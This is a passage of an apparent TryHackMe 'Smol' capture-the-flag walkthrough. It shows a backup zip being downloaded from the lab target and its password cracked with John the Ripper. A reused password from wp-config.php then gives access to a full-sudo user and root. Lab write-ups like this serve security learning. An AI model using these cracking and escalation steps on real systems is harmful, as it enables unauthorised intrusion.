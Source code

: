 
```
user@local:~/Desktop/THM/Smol$ wget http://smol.thm:8080/wordpress.old.zip

user@local:~/Desktop/THM/Smol$ john --wordlist=/usr/share/wordlists/rockyou.txt wordpress.old.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Crash recovery file is locked: /home/user/.john/john.rec
user@local:~/Desktop/THM/Smol$ john --wordlist=/usr/share/wordlists/rockyou.txt wordpress.old.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
----------REDACTED--------- (wordpress.old.zip)     
1g 0:00:00:00 DONE (2025-01-26 01:40) 1.219g/s 9300Kp/s 9300Kc/s 9300KC/s hesse..hepiboth
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

### Step 7 privesc [4]

Unzip the file and view wp-config.php. xavi password: -----REDACTED-----

```
gege@smol:/tmp$ su - xavi
Password: 
xavi@smol:~$ sudo -l 
[sudo] password for xavi: 
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL
xavi@smol:~$ sudo bash
```

### Step 8 privesc [5]

xavi is a full sudo user so we can move to root. 

```
root@smol:/home/xavi$ cd /root
root@smol:~$ pwd
/root
root@smol:~$ id
uid=0(root) gid=0(root) groups=0(root)
root@smol:~$ ls
total 64K
drwx------  7 root root 4.0K May  2  2024 .
drwxr-xr-x 18 root root 4.0K Mar 29  2024 ..
lrwxrwxrwx  1 root root    9 Jun  2  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.2K Jun 21  2023 .bashrc
drwx------  2 root root 4.0K Jun  2  2023 .cache
-rw-------  1 root root   35 Mar 29  2024 .lesshst
drwxr-xr-x  3 root root 4.0K Jun 21  2023 .local
lrwxrwxrwx  1 root root    9 Aug 18  2023 .mysql_history -> /dev/null
drwxr-xr-x  4 root root 4.0K Aug 16  2023 .phpbrew
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Aug 16  2023 root.txt
-rw-r--r--  1 root root   75 Aug 17  2023 .selected_editor
drwx------  3 root root 4.0K Jun 21  2023 snap
drwx------  2 root root 4.0K Jun  2  2023 .ssh
-rw-rw-rw-  1 root root  14K May  2  2024 .viminfo
```